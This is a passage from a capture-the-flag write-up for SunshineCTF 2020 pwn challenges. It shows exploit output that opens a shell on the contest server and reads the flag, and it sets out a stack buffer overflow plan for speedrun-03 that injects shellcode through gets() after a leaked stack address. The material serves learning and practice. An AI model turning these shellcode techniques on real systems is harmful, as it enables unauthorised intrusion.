 Output:

```bash  
# ./exploit_02.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-02/chall_02'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
[+] Opening connection to chal.2020.sunshinectf.org on port 30002: Done  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_02) gid=1000(chall_02) groups=1000(chall_02)  
$ ls -l  
total 12  
-rwxr-xr-x 1 root root     7348 Nov  7 07:49 chall_02  
-rw-r----- 1 root chall_02   43 Nov  7 08:51 flag.txt  
$ cat flag.txt  
sun{warmness-on-the-soul-3b6aad1d8bb54732}  
```

## speedrun-03

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
```

No stack canary + NX disabled + RWX segments = BOF shellcode.  Welcome to the
1990s.  Except for the PIE bit, that is 2005.  A bit odd to leave it there.

### Decompile with Ghidra

```c  
void vuln(void)  
{  
 char local_78 [112];  
  
 printf("I\'ll make it: %p\n",local_78);  
 gets(local_78);  
 return;  
}  
```

The `printf` statement leaks the address of `local_78` (on the stack with RWX
enabled).  `gets` can be used to received our shellcode and then overwrite the
return address with the address of our shellcode.
